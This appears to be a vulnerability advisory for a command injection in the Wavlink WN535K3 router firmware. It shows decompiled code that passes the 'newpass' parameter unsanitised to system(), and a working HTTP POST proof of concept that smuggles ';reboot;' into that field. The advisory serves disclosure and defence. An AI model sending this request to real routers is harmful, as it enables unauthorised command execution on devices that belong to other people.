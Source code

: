 ## Wavlink WN535K3 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WN535K3
* Version: 20191010

* Manufacturer's address：https://www.wavlink.com/en_us/product/WL-WN535K3.html
* Firmware download address ：https://www.wavlink.com/zh_cn/firmware/details/7.html

### Vulnerability details

Wavlink WN535K3 20191010 was found to contain a command injection vulnerability in the `set_sys_adm` function via the `newpass` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
1 FILE *__fastcall set_sys_adm(int a1)
2 {
3 	...
4 	v9 = (const char *)web_get("username", a1, 0);
5 	v12 = strdup(v9);
6 	v11 = (const char *)web_get("newpass", a1, 0);   //parameter control by user
7 	v13 = strdup(v11);
8 	if ( *v12 )
9 	{
10 	if ( *v13 )
11 	{
12   	sprintf(v20, "echo ‐n %s:%s > /tmp/tmpchpw && /usr/sbin/chpasswd < /tmp/tmpchpw && rm ‐fr /tmp/tmpchpw", v12, v13);
13   	system(v20);     //system call
14 		...
15 	}
16 ...
17 }
```

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 112
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=set_sys_adm&username=foo&newpass=1;reboot;
```

